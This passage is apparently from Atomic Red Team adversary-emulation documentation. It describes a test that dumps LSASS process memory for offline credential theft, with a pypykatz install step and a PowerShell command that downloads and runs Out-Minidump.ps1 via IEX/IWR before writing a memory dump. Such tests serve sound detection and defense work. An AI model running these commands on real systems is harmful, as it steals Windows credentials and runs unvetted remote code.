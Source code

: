 ```powershell
```
##### Description: pypykatz must be installed
##### Check Prereq Commands:
```powershell
if (Get-Command "#{venv_path}\Scripts\pypykatz" -errorAction SilentlyContinue) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
& "#{venv_path}\Scripts\pip.exe" install --no-cache-dir pypykatz 2>&1 | Out-Null
```




<br/>
<br/>

## Atomic Test #8 - Dump LSASS.exe Memory using Out-Minidump.ps1
The memory of lsass.exe is often dumped for offline credential theft attacks. This test leverages a pure
powershell implementation that leverages the MiniDumpWriteDump Win32 API call.
Upon successful execution, you should see the following file created $env:TEMP\lsass_*.dmp.

Author of Out-Minidump: Matthew Graeber (@mattifestation)

**Supported Platforms:** Windows


**auto_generated_guid:** 6502c8f0-b775-4dbd-9193-1298f56b6781






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
try{ IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1') -ErrorAction Stop}
catch{ $_; exit $_.Exception.Response.StatusCode.Value__}
get-process lsass | Out-Minidump
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```



